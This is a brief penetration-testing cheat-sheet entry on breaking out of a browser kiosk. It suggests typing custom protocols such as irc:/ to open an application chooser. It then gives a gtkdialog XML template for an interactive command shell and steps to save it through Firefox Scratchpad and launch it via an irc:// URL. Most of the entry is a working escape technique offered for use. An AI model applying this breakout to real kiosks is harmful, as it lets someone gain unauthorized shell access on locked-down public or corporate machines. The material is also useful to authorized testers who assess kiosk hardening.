 # Kiosk Breakout

### Custom Protocol in Browser Kiosk

Try protocols like irc:/ in the address bar to get a "choose application" dialog where we can escape from.

#### Interactive Shell from Firefox via Custom Protocol

```markup
<window>
    <vbox>
        <vbox scrollable="true" width="600" height="400">
            <edit>
                <variable>CMDOUTPUT</variable>
                <input file>/tmp/cmdout.txt</input>
            </edit>
        </vbox>
        <hbox>
            <text><label>Command:</label></text>
            <entry><variable>CMDTORUN</variable></entry>
            <button>
                <label>Run!</label>
                <action>$CMDTORUN > /tmp/cmdout.txt</action>
                <action>refresh:CMDOUTPUT</action>
            </button>
        </hbox>
    </vbox>
</window>
```

Create via Scratchpad, save as shell and run via `irc://host -f /home/user/shell`. This will open a "choose application" dialog \(see point above\) and we can choose gtkdialog to execute it.

